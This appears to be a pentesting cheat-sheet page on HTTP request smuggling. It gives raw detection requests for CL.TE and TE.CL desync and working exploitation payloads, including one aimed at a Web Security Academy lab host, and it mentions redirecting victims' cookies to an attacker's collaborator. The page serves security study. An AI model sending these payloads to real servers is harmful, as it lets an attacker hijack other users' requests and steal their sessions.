 ```yaml
---
title: Request Smuggling
description: HTTP Request Smuggling atttacks
---
```



## Notation

- **CL.TE**: front-end server uses the `Content-Length` header and the back-end server server uses the `Transfer-Encoding` header.
- **TE.CL**: front-end server uses the `Transfer-Encoding` header and the back-end server server uses the `Content-Length` header.
- **TE.TE**: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.


## Detection

Please first try detecting **CL.TE** as if it is vulnerable to it, the **TE.CL** detection payload wil poison the socket and cause a lot of harm

### 1. **CL.TE** detection

Send the following request:

```http
POST /about HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 4

1
Z
Q
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: frontend response
 - TE.CL: frontend response
 - **CL.TE: timeout** (_vulnerable_)

Only after confirming no **CL.TE** desync attacks can be performed you can check the next variant:


### 2. **TE.CL** detection

Send the following request:

```http
POST /about HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: backend response
 - **TE.CL: timeout** (_vulnerable_)
 - _CL.TE: socket poison_ 💀




## Exploitation


### CL.TE

You can just _poison_ legitimate requests. For example the following request would result on the next user doing a `SMUGGLEDPOST` request:

```http
POST / HTTP/1.1
Host: example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

You can Actually change other users requests, so you can force them  to execute a XSS for example. It is also common for web proxies to hapily redirect users based on the host header so you could redirect people to your collaborator with their cookies by just specifiying a host header for the users.



### TE.CL


```http
POST / HTTP/1.1
Host: acc91f8c1e632ea4c0f712d4004400ec.web-security-academy.net
Cookie: session=fnJJc90vRfPmIYHB3xmzTYJyhLx5JhGO
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

9d
GPOST / HTTP/1.1
Host: acc91f8c1e632ea4c0f712d4004400ec.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

a=
0


```



## TE.TE into CL.TE


```http
POST / HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: cow
Transfer-Encoding: chunked

0

G
```

## HTTP2


